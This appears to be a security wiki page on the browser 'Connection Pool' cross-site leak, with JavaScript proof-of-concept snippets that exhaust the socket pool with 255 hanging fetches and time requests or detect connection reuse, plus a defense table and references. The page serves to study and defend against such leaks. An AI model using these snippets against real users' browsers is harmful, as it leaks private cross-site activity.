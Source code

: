 +++
title = "Connection Pool"
description = ""
date = "2020-10-01"
category = "Attack"
abuse = [
    "Connection Pool",
    "Browser Limits",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
]
menu = "main"
+++

Another way to measure the network timing of a request consists of abusing the socket pool of a browser [^1]. Browsers use sockets to communicate with servers. As the operating system and the hardware it runs on have limited resources, browsers have to impose a limit.

To exploit the existence of this limit, attackers can:
1. Check what the limit of the browser is, for example 256 global sockets for TCP and 6000 global sockets for UDP. [^2][^7]
2. Block {{< katex>}}255{{< /katex >}} sockets for a long period of time by performing {{< katex>}}255{{< /katex >}} requests to different hosts that simply hang the connection
```javascript
for(let i=0; i<255; i++) fetch('https://'+i+'.example.com/', {mode: "no-cors", cache: "no-store"});
```
4. Use the {{< katex>}}256^{th}{{< /katex >}} socket by performing a request to the target page.
5. Perform a {{< katex>}}257^{th}{{< /katex >}} request to another host. Since all the sockets are being used (in steps 2 and 3), this request must wait until the pool receives an available socket. This waiting period provides the attacker with the network timing of the {{< katex>}}256^{th}{{< /katex >}} socket, which belongs to the target page. This works because the {{< katex>}}255{{< /katex >}} sockets in step 2 are still blocked, so if the pool received an available socket, it was caused by the release of the socket in step 3. The time to release the {{< katex>}}256^{th}{{< /katex >}} socket is directly connected with the time taken to complete the request.
```javascript
performance.clearResourceTimings();
await fetch(location.href, {cache: "no-store"});
await new Promise(r => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = (data.connectStart === data.startTime) ? 'reused' : 'new';
console.log('Time spent: ' + data.duration + ' on ' + type + ' connection.');
```

## Connection reuse
With HTTP/1.1 (TCP) and HTTP/2 (TCP) and HTTP/3 (UDP) requests may reuse an existing connection for a host to improve performance. [^3][^4]
Since a reused connection is normally faster this could allow for detecting if a site has connected to a host excluding anything that’s been cached and leaking information about the cross-site request by abusing Stream prioritization and HPACK compression. [^5]
Connections may get closed if there left idle or the sockets are exhausted, for example 256 connections for HTTP/2 or 30 seconds idle for HTTP/3. [^2][^6]
This may also leak when the connection happened and the browser can have per connection limits and on how many connections are allowed per host, for example 6 connections per host. [^2]
```javascript
// Detect if a HTTP/3 request was made to a certain host in the last 20 seconds.
await new Promise(r => setTimeout(r, 10000));

// Check for connection reuse when theres Timing-Allow-Origin header.
async function isConnected(url) {
    performance.clearResourceTimings();
    try {
        await fetch(url, {
            cache: "no-store"
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    // Allowed to read timing infomation.
    // Same-origin or the Timing-Allow-Origin header.
    console.log("Protocol: " + data.nextHopProtocol);
    return (data.connectStart === data.startTime);
}

// Check for connection reuse when theres no Timing-Allow-Origin header.
async function isConnected2(url) {
    performance.clearResourceTimings();
    try {
        await fetch(url, {
            cache: "no-store",
            headers: {
                'isConnected': 'isConnected'
            }
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    try {
        await fetch(url, {
            cache: "no-store",
            headers: {
                'isConnected': 'isConnected'
            }
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data2 = performance.getEntries().pop();
    // Check if the first request toke significantly longer.
    return (data.duration - data2.duration < 50);
}

await isConnected('https://example.com/404');
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) | [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}}) |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-------------------------------------------------------------------: |
|                                         ❌                                          |                          ❌                          |                                 ❌                                 |                                   ❌                                   |


{{< hint info >}}
Similar to [partitioned caches]({{< ref "../../defenses/secure-defaults/partitioned-cache.md" >}}), some browsers are considering to extend the principle of "split per site/origin" of resources to [socket pools](https://bugzilla.mozilla.org/show_bug.cgi?id=1572544).
{{< /hint >}}

## References

[^1]: Leak cross-window request timing by exhausting connection pool, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=843157)
[^2]: client_socket_pool_manager.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool_manager.cc)
[^3]: rfc9113 Connection Reuse, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.9.1.1)
[^4]: rfc9114 Connection Reuse, [link](https://httpwg.org/specs/rfc9114.html#rfc.section.3.3)
[^5]: rfc9113 Remote Timing Attacks, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.10.9)
[^6]: quic_context.h, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/quic/quic_context.h)
[^7]: features.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/base/features.cc)
